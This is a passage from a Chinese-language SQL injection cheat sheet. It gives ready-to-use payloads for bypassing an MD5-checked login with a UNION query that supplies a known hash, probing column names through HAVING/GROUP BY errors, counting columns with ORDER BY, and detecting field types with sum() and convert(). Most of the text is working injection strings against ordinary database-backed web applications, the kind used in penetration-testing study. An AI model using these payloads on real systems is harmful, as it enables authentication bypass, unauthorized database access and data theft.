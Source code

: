 **旧版本的MySQL不支持union*

### 绕过检查MD5哈希的登陆界面

如果应用是先通过用户名，读取密码的MD5，然后和你提供的密码的MD5进行比较，那么你就需要一些额外的技巧才能绕过验证。你可以把一个已知明文的MD5哈希和它的明文一起提交，使得程序不使用从数据库中读取的哈希，而使用你提供的哈希进行比较。

#### 绕过MD5哈希检查的例子(MSP)

> 用户名：`admin`
> 
> 密码：`1234 ' AND 1=0 UNION ALL SELECT 'admin','81dc9bdb52d04dc20036dbd8313ed055`

其中`81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)`

### 基于错误(Error Based)-探测字段名

#### 使用`HAVING`来探测字段名(S)

*   `' HAVING 1=1 --`
*   `' GROUP BY table.columnfromerror1 HAVING 1=1 --`
*   `' GROUP BY table.columnfromerror1, columnfromerror2 HAVING 1=1 --`
*   ……
*   `' GROUP BY table.columnfromerror1, columnfromerror2,columnfromerror(n) HAVING 1=1 --`
*   直到它不再报错，就算搞定了

#### 在`SELECT`查询中使用`ORDER BY`探测字段数(MSO+)

通过ORDER BY来探测字段数能够加快union注入的速度。

*   `ORDER BY 1--`
*   `ORDER BY 2--`
*   ……
*   `ORDER BY N--`
*   一直到它报错为止，最后一个成功的数字就是字段数。

### 数据类型、UNION、之类的

**提示：**

*   经常给**UNION**配上**ALL**使用，因为经常会有相同数值的字段，而缺省情况下UNION都会尝试返回唯一值(records with distinct)
*   如果你每次查询只能有一条记录，而你不想让原本正常查询的记录占用这宝贵的记录位，你可以使用`-1`或者根本不存在的值来搞定原查询（前提是注入点在WHERE里）。
*   在UNION中使用NULL，对于大部分数据类型来说这样都比瞎猜字符串、日期、数字之类的来得强
    *   盲注的时候要小心判断错误是来自应用的还是来自数据库的。因为像ASP.NET就经常会在你使用NULL的时候抛出错误（因为开发者们一般都没想到用户名的框中会出现NULL）

#### 获取字段类型

*   `' union select sum(columntofind) from users--`(S)
    
    `Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a **varchar** data type as an argument.`如果没有返回错误说明字段是**数字类型**
    
*   同样的，你可以使用`CAST()`和`CONVERT()`
    
    *   `SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL--`
*   `11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –-`
    
